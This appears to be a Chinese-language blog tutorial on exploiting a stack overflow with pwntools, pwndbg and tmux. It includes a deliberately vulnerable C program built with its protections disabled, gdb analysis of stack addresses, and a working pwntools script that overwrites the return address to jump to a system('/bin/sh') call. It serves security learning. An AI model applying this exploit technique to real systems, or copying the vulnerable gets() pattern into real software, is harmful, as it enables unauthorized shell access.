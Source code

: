 ```yaml
---
title: pwntools使用初探——简单栈溢出利用
catalog: true
date: 2021-09-17 22:25:40
subtitle:
header-img:
tags:
categories:
---
```

​
# 0. 前言
使用pwntools来实现一个简单的栈溢出利用，以此来熟悉一下pwndbg+tmux调试pwntools脚本

# 1. 环境准备
> 操作系统：Ubuntu 20.04
> cpu架构：x86_64
> gdb：9.2
> python：3.8.5
> pwndbg：2020.07.23

# 2. 测试程序准备
首先准备一份有栈溢出漏洞的代码保存在test.c文件中：
```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main()
{
    char password[8];
    char your_password[8];
    int fd = open("/dev/random", O_RDONLY);
    read(fd, password, 8);
    close(fd);
    gets(your_password);
    if (strncmp(your_password, password, 8) == 0){
        system("/bin/sh");
    }
    else{
        puts("The password is not right.");
    }
    return 0;
}
```
这份源码的功能是：
获取一个8位随机字符，然后输入一个8位字符串，如果输入的字符串与获取的随机字符串一样，则弹出shell。我们想实现的目标就是利用这个程序获得shell。

编译源码：
```bash
gcc test.c -o test -no-pie -fno-stack-protector -z execstack （-m32）
```
执行上述命令后会得到一个64位的test可执行文件（如果需要32位的则加上-m32参数），注意，为了方便实验，gcc编译命令后面加了几个参数，确保输出的可执行文件的NX、canary保护、地址随机化等保护手段都是失效的。

使用checksec工具查看test程序的保护是不是都关闭了，如果输出如下则说明ok：
![1](1.png)

# 3. 思路分析
观察源码可以看出，使用了危险函数gets，因此gets函数的参数your_password有可能会发生溢出。

为了实现执行system命令的目标，有两种思路：
> 1. 利用溢出覆盖掉password的值，让strncmp执行成功；
> 2. 利用溢出，让函数直接跳转到system函数的位置，执行system函数

# 4. 开始利用
## 1）gdb分析test程序
a. 首先在gets、strncpy函数处下断点（b 函数名可以设置断点，ni可以逐行汇编执行），获取your_password和password变量的内存地址（因为我们编译的时候使用了-no-pie，所以这个地址是不会变的）：
首先获取your_password的地址（gets函数的第一个参数）：
![2](2.png)
然后获取password的地址（strncmp函数的第二个参数）：
![3](3.png)
可以看出，**password的地址高于your_password地址**，因此可以通过溢出your_password来实现覆盖password的值，思路一可行（**栈溢出是从低地址往高地址溢出**）。
b. 同时我们可以看到strncmp函数下面有system函数的地址(0x7fffffffe3bc)，这个地址在思路二中可以用到：
![4](4.png)

c. 使用nextret命令查看ret返回的地址，因为ret指令返回的地址是从rsp寄存器获取的，因此查看ret指令执行前rsp寄存器的值即可：
![5](5.png)


通过观察ret指令执行前的汇编操作，我们发现rsp寄存器的地址其实就是leave操作来更新的，也就是通过rbp算出来的，而**rbp地址在rsp这个地址的高位（可以用ni操作逐步执行到ret指令看一下）**，因此我们可以直接溢出到rsp的这个地址，往里写入system函数的地址，实现思路二。

这里要注意的是，我强调了rsp地址的获取方式，因为我们要注意**溢出时不要把rsp地址获取的基线给覆盖了**，比如rbp位置位于rsp地址的下面，而rsp地址又是要用rbp里的存的内容来计算的，这种情况如果直接覆盖掉rsp地址的内容，势必会把下面rbp的内容一起覆盖，导致无法正常找到预期的rsp的地址。所以我们**一定要注意观察ret操作之前，rsp的地址是怎么获取的。**

## 2）验证思路一
思路一是想通过溢出，使得password和your_password的值一致，从而实现strncmp成功，执行system语句。因此实现这个思路，需要your_password地址位于password底下，然后计算出两个地址之间的距离，便能得到需要构造多长的字符串。

由上一步我们得到了your_password的地址为0x7fffffffe3bc，password的地址为0x7fffffffe3c4，两者相减为0x8，因此只要字符超过8位就可以覆盖到password的值，而通过观察strncpy函数的第三个参数，函数就是比较8个字符长度，因此password覆盖掉8个字节即可，所以需要构造一个16字节长的、前后8字节的字符相同的字符串，为了方便我们直接输入16个'a'来测试：
![6](6.png)

成功返回shell！

## 3）验证思路二
思路二是想通过覆盖ret返回的地址的内容，把ret返回的地址的内容改为system函数的位置，这样执行完ret指令后，就会直接跳转到system函数执行。

实现这个思路需要注意的就是rsp寄存器的值是怎么获取的，不要把获取rsp值的基地址给覆盖了，还有一个点是，不要直接把system指令的地址覆盖进去，因为system是有参数的，要返回参数赋值操作的地址：
![7](7.png)

从gdb中我们可看到，strncmp函数会有一个jne判断跳转的操作，而system就是跳转之后执行的，因此0x401272就是system指令最开始准备阶段的地址，我们直接把这个覆盖到ret返回地址内容里即可。

确定了system指令的起始地址后，下一步是计算溢出点到ret地址之间的距离，由之前的分析可知，溢出点your_password的地址为0x7fffffffe3bc，ret指令返回的地址为0x7fffffffe3d8，且这个地址是从更高的rbp寄存器里计算得到的，因此我们可以直接从溢出点覆盖到ret地址，经过计算这两个地址直接的距离为28，下面我们使用pwntools来实现该操作，代码如下：
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h'] #设置tmux，脚本执行的时候窗口会左右分开，左侧为运行试图，右侧为gdb试图
p = process("./test")             # 可执行文件的名字
sys_addr = p64(0x401272)          # system指令的开始位置，如果是32位的程序则使用p32
buf = b'b' + b'a'*27 + sys_addr   # 构造一个长度为28字节的串，注意这里第一个字节用了一个b，
                                  # 这是为了保证不会自动走到system函数

gdb.attach(p)                     # 使用gdb断住程序，位置是在gets函数

p.sendline(buf)                   # 把buff发送给程序
p.interactive()
```
这个脚本要在tmux里运行，如果不想在tmux里运行，则需要注释掉context和gdb语句，运行效果如下：
![8](8.png)

在这个位置下断点，c命令继续执行，可直接返回到main函数：
![9](9.png)

nextret直接跳转到ret指令，发现rsp寄存器存的地址指向的位置正是我们注入的system指令的位置：
![10](10.png)

退出调试，发现成功得到shell：
![11](11.png)

# 5. 小结
这个实例主要是初步介绍了栈溢出的简单利用思路，以及如何使用pwndbg+tmux+pwntools来调试实现对栈溢出的利用，有问题还请指正。

​